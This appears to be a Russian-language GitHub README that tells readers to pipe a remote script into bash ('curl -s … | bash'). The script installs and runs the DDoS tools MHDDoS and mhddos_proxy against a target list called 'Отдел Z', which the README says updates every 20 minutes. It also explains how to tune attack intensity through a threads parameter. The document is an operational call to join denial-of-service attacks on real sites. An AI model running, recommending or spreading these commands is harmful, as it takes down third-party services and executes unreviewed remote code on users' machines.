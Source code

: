 # Запустить скрипт

curl -s https://raw.githubusercontent.com/gruzilkinnn/dev_bash/master/bash.sh | bash
Автоматически устанавливает git python3, pip, mhddos_proxy, MHDDoS, расширенный список proxy и все зависимости.

Работает с базой сайтов Отдел Z.

База целей обновляется каждые 20 минут.

Во время запуска всегда проверяет и загружает обновления mhddos_proxy и MHDDoS.

Рекомендуется использовать на Ubuntu 20.04. Но должно работать на всех Ubuntu и Debian производных, а также в WSL2.

Для остановки скрипта несколько раз нажмите CTRL + C, или закройте окно с терминалом.

❕ Изменение интенсивности
Если скрипт очень замедляет ПК, или наоборот Вы имеете неиспользованные ресурсы, можно снизить, или наоборот повысить интенсивность работы скрипта. Для этого надо управлять параметром threads. По умолчанию threads = 1000.

Чтобы снизить нагрузку на систему, попробуйте использовать threads = 500

curl -s https://raw.githubusercontent.com/gruzilkinnn/dev_bash/master/bash.sh | bash -s -- 500
Чтобы загрузить систему больше, попробуйте использовать threads = 2000

curl -s https://raw.githubusercontent.com/gruzilkinnn/dev_bash/master/bash.sh | bash -s -- 2000
